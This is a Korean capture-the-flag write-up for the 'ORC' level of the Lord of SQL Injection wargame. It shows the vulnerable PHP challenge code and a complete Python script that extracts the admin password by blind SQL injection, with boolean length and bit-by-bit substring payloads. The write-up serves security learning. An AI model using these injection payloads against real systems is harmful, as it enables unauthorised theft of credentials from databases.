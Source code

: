 
## ORC Write-up

### 문제
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

### Exploit 코드
``` python
import requests

def req(a) :
    url = 'http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php'
    cookies = {'PHPSESSID' : 'My PHPSESSID'}
    params = {}
    params['pw'] = a

    res = requests.get(url, cookies=cookies, params=params)

    if "Hello admin" in res.text :
        return True
    elif "Clear" in res.text :
        return True
    else :
        return False

for i in range(100) :
    a = "' or id='admin' and length(pw)="+str(i)+"#"
    if req(a) :
        length = i
        print("Key length is " + str(i))
        break

flag = ''
for i in range(length) :
    binary = ''
    for j in range(8) :
        a = "' or id='admin' and substr(lpad(bin(ord(substr(pw, "+str(i+1)+", 1))), 8, 0), "+str(j+1)+",1)=0#"
        if req(a) :
            binary += '0'
        else :
            binary += '1'
    flag += chr(int(binary, 2))

if req(flag) :
    print("FLAG IS " + flag)
    print("\n[♪] ORC Clear")
```

이번 문제는 admin의 pw가 무엇인지 알아내야 한다.  
쿼리의 조건이 참이면 Hello admin 문구가 뜰 것이다. 이것으로 참 거짓을 판별해 Blind SQL Injection을 하면 된다.
``` php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```
GET 방식으로 받는 pw를 필터링 하는 구문이다.  
`prob` `_` `.` `(` `)` 중 하나라도 있으면 필터링 된다.
i는 대소문자 구분없이 단어만 같으면 필터한다는 의미이다.

Exploit 코드는 한 글자를 바이너리로 변환해 비교하는 형식으로 코딩했다.  
admin의 pw 값을 알아내고 문제를 해결했다.
